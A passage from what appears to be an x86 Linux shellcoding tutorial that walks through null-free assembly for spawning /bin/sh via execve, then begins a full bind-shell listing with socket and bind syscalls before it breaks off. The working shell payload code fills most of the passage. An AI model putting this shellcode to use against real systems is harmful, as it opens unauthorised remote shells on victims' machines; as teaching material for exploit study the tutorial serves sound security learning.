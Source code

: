```nasm
    push eax
```

Next, we need to place the string `/bin/sh` onto the stack in reverse order. However, before we do this and in order to avoid NULL BYTEs in our shellcode, we need to make sure that the string is divisable by 4. Right now, it's 7 characters so we add an additional character to make it an even 8. `//bin/sh`

```nasm
    push 0x68732f6e
    push 0x69622f2f
```

Next, we need EBX to carry the pointer location of the entity we just created on the stack. 

```nasm
    mov ebx, esp
```

Next, we will need another zeroed out value to be pointed to for EDX, so let's push EAX onto the stack once more and then assign the ESP to EDX.

```nasm
    push eax
    mov edx, esp
```

Finally, ECX should point to the location of EBX. So we'll push EBX onto the stack and then move ESP into ECX. 

```nasm 
    push ebx
    mov ecx, esp
```

Now we can put our `0x0b` into the lower portion of EAX and call our interrupt. 

```nasm
    mov al, 0x0b
    int 0x80
```

## Completed Assembly Code 

```nasm
global_start

section .text
_start: 
	
	xor eax, eax
	xor ebx, ebx
	xor ecx, ecx
	xor edx, edx
	
	; SYS CALL #1 = socket()
	
	mov ax, 0x167
	mov bl, 0x02
	mov cl, 0x01
	
	int 0x80
	mov edi, eax

	; SYS CALL #2 = bind()
	
	xor eax, eax
	mov ax, 0x169
	mov ebx, edi
```